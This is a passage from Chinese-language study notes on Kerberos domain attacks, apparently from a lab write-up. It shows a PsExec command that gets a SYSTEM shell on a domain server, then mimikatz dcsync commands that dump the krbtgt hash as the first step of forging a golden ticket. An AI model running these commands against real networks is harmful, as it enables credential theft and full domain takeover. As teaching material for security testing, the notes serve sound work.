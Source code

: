 4. 使用 PsExec 就可以获取 Shell 了：
    ```cmd
    PsExec64.exe -accepteula -s \\Winserver08.endlessshw.com cmd.exe
    ```

    ![image-20240623185246739](Kerberos/image-20240623185246739.png)

#### 4.3.3 金票传递

1. 伪造金票需要的四个东西：

    1. 域名称
    2. 域的 SID 值
    3. **域的 krbtgt 账号的 Hash**
    4. 伪造任意用户名

2. 先要有域管的权限，然后使用命令导出用户 krbtgt 的 hash：
    ```bash
    # 往域控电脑上传 mimikatz，在域控电脑上执行
    mimikatz # lsadump::dcsync /domain:endlessshw.com /all /csv
    # 如果上面的命令不行，就用这个，还更好
    mimikatz # lsadump::dcsync /domain:endlessshw.com /user:krbtgt
    # mimikatz 中复制粘贴有时会导致 shell 崩掉，所以可以将结果导出来
    mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:endlessshw.com /user:krbtgt" "exit" > krbtgt.txt
    ```
